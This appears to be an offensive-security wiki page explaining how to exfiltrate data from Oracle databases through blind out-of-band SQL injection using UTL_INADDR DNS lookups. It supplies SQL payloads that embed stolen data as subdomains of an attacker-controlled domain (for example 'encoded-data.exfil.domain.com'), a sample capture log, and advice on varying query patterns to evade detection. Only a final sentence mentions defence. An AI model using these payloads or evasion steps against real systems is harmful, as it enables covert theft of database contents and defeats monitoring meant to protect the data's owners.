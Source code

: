 ```yaml
---
title: Mastering UTL_INADDR DNS Data Exfiltration in Oracle
description: Discover how to exfiltrate data via UTL_INADDR using DNS in Oracle SQL
  injections. Uncover stealth techniques for blind out-of-band attacks.
keywords:
- UTL_INADDR
- Oracle SQL Injection
- DNS Data Exfiltration
- Out-of-Band Injection
- Cybersecurity
- Stealth Data Extraction
- DNS Resolutions
---
```


# UTL_INADDR

## Context

UTL_INADDR is a technique used to exploit Oracle databases through blind out-of-band SQL injection. It leverages DNS mechanisms to stealthily exfiltrate data. As part of the blind out-of-band injection methodology, UTL_INADDR is particularly insidious in operations where direct interaction is not feasible, making it a preferred choice in sophisticated cyber attacks.

This topic lies under the parent category of blind_out-of-band_injection alongside other Oracle SQL injection techniques such as UTL_HTTP, CTXSYS.HTTP, and EXTRACTVALUE. Here, we will explore the use of UTL_INADDR to perform DNS-based data exfiltration, aiming to provide a comprehensive guide on executing these methods effectively and stealthily.

## Theory

The core concept behind using UTL_INADDR in a cyber attack is to exploit Oracle's built-in capability to resolve DNS queries, transforming it into an exfiltration vector. This method allows an attacker to extract data from a targeted database without direct response visibility. 

By directing data to a controlled DNS server, attackers can observe the outgoing DNS queries to infer stolen data. This communication model bypasses traditional firewalls and inspections by using outbound DNS requests, which might be less scrutinized.

```mermaid
graph LR
    A[Oracle DB] -- DNS Query --> B[Attacker-Controlled DNS Server]
    B -- Responses Capture --> C[Log Analysis]
    C -- Data Extraction --> D[Sensitive Data]
```

In essence, the attacker utilizes the UTL_INADDR.get_host_address function to craft SQL queries that resolve domain names associated with data to be exfiltrated. The DNS server logs these requests, allowing the capture and reconstruction of the extracted information. 

## Practice

### DNS Resolution to Exfiltrate Data

The initial step in exploiting UTL_INADDR is confirming the presence of a DNS server that can be configured to capture and analyze outgoing DNS queries originating from the Oracle DB.

#### Step 1: Verify DNS Resolution Capability

The attacker first ensures the database's ability to resolve external domain names:

```sql
SELECT UTL_INADDR.get_host_address('example.com') FROM dual;
```

#### Step 2: Direct Data Through DNS

Commands are constructed to embed sensitive data as subdomains of a controlled DNS address:

```sql
SELECT UTL_INADDR.get_host_address('data.exfil.domain.com') FROM dual;
```

Expected server log:

```
Time: [timestamp]
Query: data.exfil.domain.com
```

This log entry on the attacker-controlled DNS server confirms the reception of an exfiltration attempt.

### Stealth Data Exfiltration

To improve the operation's stealth, data can be encoded and systematically exfiltrated using carefully structured DNS queries.

#### Step 1: Encode Data for DNS

Sensitive data is encoded to fit within the limitations and structure of DNS requests.

#### Step 2: Execute Exfiltration

```sql
SELECT UTL_INADDR.get_host_address('encoded-data.exfil.domain.com') FROM dual;
```

#### Screenshot: DNS Query Capture

Captured queries at the DNS server show the transmitted encoded data, providing a basis for decoding and extracting the underlying sensitive information.

### Detection Evasion

To evade detection, attackers can alter domain patterns to appear as legitimate or to avoid regularity that could trigger alerts.

#### Step 1: Implement Pattern Alteration

Varying query patterns, including randomization or insertion of legitimate hostnames, can bypass detection algorithms that look for anomalies or repeated query patterns.

#### Screenshot: Log Analysis of Irregular Patterns

Server logs depict non-standard or irregular DNS request patterns, reducing the likelihood of triggering automated security mechanisms.

### Tools and Utilization

- **Oracle SQL*Plus**: For crafting and executing SQL queries.
- **Wireshark/tcpdump**: For monitoring network traffic and capturing DNS queries.
- **Custom DNS Server Logs**: Analyzing the query logs for exfiltrated data.

Through these practices, attackers can stealthily extract valuable information from an Oracle database system using UTL_INADDR while operating under the radar of conventional security measures. However, these techniques underscore the importance of monitoring and securing external resolution capabilities within database environments.
